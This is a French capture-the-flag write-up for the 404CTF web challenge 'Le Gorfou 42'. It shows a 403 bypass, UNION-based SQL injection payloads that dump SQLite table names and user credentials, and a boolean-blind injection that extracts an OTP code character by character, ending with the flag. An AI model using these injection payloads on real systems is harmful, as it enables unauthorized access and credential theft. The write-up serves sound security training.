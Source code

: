 Web - Le Gorfou 42
======================

Enoncé
------------

Voici le site web du journal de football LE GORFOU 42 ! Il est tout neuf, dispose de quelques articles intéressants et, est super sécurisé... non ?

Auteur : Asumamusa

Résolution
----------------

On a tenter pendant longtemps le champ de recherche ?query (la barre de recherche)

Puis le formulaire de connexion

Puis le crack des cookies de sessions flask après avoir fait /admin et découvert une erreur flask.

Mais toujours rien !

Sur la page admin, on trouve un bypass 403 grâce à Burp Pro ! Mais en faites ça fait juste apparaître la barre de recherche.

Dans le doute je creuse quand même cette page, et bingo !

Enfin un point d'entrée pour une injection SQL : https://le-gorfou-42.challenges.404ctf.fr/%09admin?query=a%27+UNION+SELECT+version%28%29%2Cnull%3B+-+--# 

On test un 
.. code-block:: console
		
	a' UNION SELECT NULL 
        ==> Mauvais nombre de colonne
    a' UNION SELECT NULL,NULL 
        ==> Erreur 500
    a' UNION SELECT NULL,NULL,NULL 
        ==> Mauvais nombre de colonne
    a' UNION SELECT 1,2; - --UNION SELECT NULL,NULL 
        ==> Erreur 500
    a' UNION SELECT "a","b"--+ 
        ==> No colomn "a"
    a' ORDER BY 4--+  
        ==> 1st ORDER BY term out of range - should be between 1 and 2  
    a' UNION SELECT sqlite_version(),"a"; - --
        ==> Pas de fonction sqlite_version

On ne sait toujours pas sur quel SGBD on tente de faire l'injection (Mysql, sqlite, pgsql, ...)

Donc on continue de chercher, et c'est bien du sqlite : 

.. code-block:: console
		
	a' AND 1=2 UNION SELECT 1, name from sqlite_master--

On est donc sur SQLITE ! Et on a le nom des tables.

Pour avoir le nom des colonnes : 

.. code-block:: console
		
	a' AND 1=2 UNION SELECT 1,sql  FROM sqlite_master  WHERE type = 'table' AND name = 'Xx_US3RS_xX';--

Voici le nom des colonnes : 

- Username : Xx_US3RNAM3_xX
- Password : Xx_PASSW0RD_xX

On va donc récupérer les username : 

.. code-block:: console
		
	a' AND 1=2 UNION SELECT 1,Xx_US3RNAM3_xX  FROM Xx_US3RS_xX ;-- 

On obtient ceci : 
- Xx_ADMINISTRAT0R_xX
- journaliste_du_54
- journaliste_du_57

Et maintenant leur mot de passe : 

.. code-block:: console
		
	a' AND 1=2 UNION SELECT 1,Xx_PASSW0RD_xX  FROM Xx_US3RS_xX ;-- 

Les mots de passe dans le même ordre : 

- Mk$nj5KzAE4Rg#
- K#fBZM!4A593aN
- bQ3M^5RpjzVy^k

On se connecte, et on nous demande un code OTP ! God ! Une autre injection ! 

Erreur intéressante : 

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX'); 
        ==> ERREUR You can only execute one statement at a time.
    Xx_ADMINISTRAT0R_xX'); --
        ==> Code Incorrect

Et on sait que la colonne "code" n'existe pas, mais par contre Xx_C0D3_xX existe bien grâce a ce payload : 

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX'  OR code='a' OR '1'='1 --
        ==> no such table code
    Xx_ADMINISTRAT0R_xX'  OR Xx_C0D3_xX='a' OR '1'='1 --  
        ==> code incorrect

On va devoir faire du boolean blind : 
- Quand c'est faux : utilisateur incorrect
- Quand c'est vrai : code incorrect


On va essayer d'allez creshendo : 

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX'  and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < 2) -- # false
    Xx_ADMINISTRAT0R_xX'  and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < 3) -- # true

On récupère la taille du nom de la table : 

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX' and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=1) --

Résultat avec Burp : 11

Bon pi finalement on va exfiltrer le code OTP en reprenant le nom des tables et colonnes connues : 

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX' and (SELECT hex(substr(Xx_C0D3_xX,1,1)) FROM Xx_US3RS_xX WHERE Xx_US3RNAM3_xX='Xx_ADMINISTRAT0R_xX' limit 1 offset 0) > hex('a')) --

On va changer un peu le payload pour plus de précision. On va utiliser "=" plutôt que ">"

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX' and (SELECT hex(substr(Xx_C0D3_xX,1,1)) FROM Xx_US3RS_xX WHERE Xx_US3RNAM3_xX='Xx_ADMINISTRAT0R_xX' limit 1 offset 0) = hex('a')) --

On met le bon charset dans burp suite : 

.. code-block:: console
		
	0123456789abcdefghijklmnopqrstuvwxyz#([-_)$!,'

Et pour chaque caractère on regarde le seul résultat qui donne "Code incorrect" :

.. code-block:: console
		
	Xx_ADMINISTRAT0R_xX' and (SELECT hex(substr(Xx_C0D3_xX,1,1)) FROM Xx_US3RS_xX WHERE Xx_US3RNAM3_xX='Xx_ADMINISTRAT0R_xX' limit 1 offset 0) = hex('a')) --
    Xx_ADMINISTRAT0R_xX' and (SELECT hex(substr(Xx_C0D3_xX,2,1)) FROM Xx_US3RS_xX WHERE Xx_US3RNAM3_xX='Xx_ADMINISTRAT0R_xX' limit 1 offset 0) = hex('a')) --
    ...
    Xx_ADMINISTRAT0R_xX' and (SELECT hex(substr(Xx_C0D3_xX,14,1)) FROM Xx_US3RS_xX WHERE Xx_US3RNAM3_xX='Xx_ADMINISTRAT0R_xX' limit 1 offset 0) = hex('a')) --

Le code OTP complet : WS4$4#4G6Pwose

On se connecte et on a le flag : 

**404CTF{Xx-@LL-MY-H0MI3Z-LUV-SQLI-xX}**